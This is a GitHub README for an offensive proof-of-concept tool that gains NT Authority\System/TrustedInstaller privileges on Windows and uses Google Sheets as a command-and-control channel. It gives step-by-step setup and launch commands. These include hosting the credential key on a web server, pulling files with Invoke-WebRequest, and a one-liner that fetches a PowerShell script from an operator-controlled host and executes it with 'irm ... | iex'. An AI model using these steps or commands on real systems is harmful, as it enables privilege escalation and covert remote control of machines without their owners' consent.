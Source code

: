 # TrustedInstallerPOC-GC2-Sheet

A simple Proof of Concept in Powershell/Go to spawn a new shell as NT Authority\System using Google Sheets as a C2 interface. Read more about how this PoC works on this [blog about TrustedInstaller](https://fourcore.io/blogs/no-more-access-denied-i-am-trustedinstaller) and [GC2-sheet](https://github.com/looCiprian/GC2-sheet). It is important to note that this should be executed as a user which has SeDebugPrivileges. This repository leverages forked repositories: looCiprian/GC2-sheet and FourCoreLabs/TrustedInstallerPOC.

## Configuration

The Powershell script ti2.ps1 pulls nathansb2022/GC2-sheet-Scripted, nathansb2022/TrustedInstallerPOC-GC2-Sheet, and go1.21.12.windows-amd64.zip. Lastly, ti2.ps1 is configured to pull your Google service account .json key. See below for alternative method. For Google Sheets and Drive setup reference [GC2-Sheet-Scripted](https://github.com/nathansb2022/GC2-sheet-Scripted).

## POC

1. Clone the repository

```
$ git clone https://github.com/nathansb2022TrustedInstallerPOC-GC2-Sheet.git
```

2. Ensure you have a web server hosting your Google service account .json key or drop in GC2-Sheet-Scripted-Master

```
$ python3 -m uploadserver 80
```

3. Optional: If you are adding the .json key manually remove line 42 from ti2.ps1

```
Invoke-WebRequest -Uri $keyFileUrl -UseBasicParsing -OutFile ".\master\GC2-sheet-Scripted-master\$myKey"
```

4. Edit ti2.ps1 and define variables

```
$myUrl = ""
$myKey = ""
$mySheetId = ""
$myDriveId = ""
```

6. Either call the ti2.ps1 or execute it in go

```
$ .\ti2.ps1
```
```
$ irm http://$myUrl/ti2.ps1 | iex
```
```
$ go run ti $myKey $mySheetId $myDriveId
```


This will spawn a new cmd shell with TrustedInstaller privileges in Google Sheets which can be confirmed by running the command `whoami /all`

<p align="center">
  <img alt="Logo" src="img/Screenshot from 2024-08-11 20-10-32.png" height="55%" width="80%">
</p>

## API

- RunAsTrustedInstaller
  - Use the `RunAsTrustedInstaller` function to pass any executable to be run with TrustedInstaller privileges.
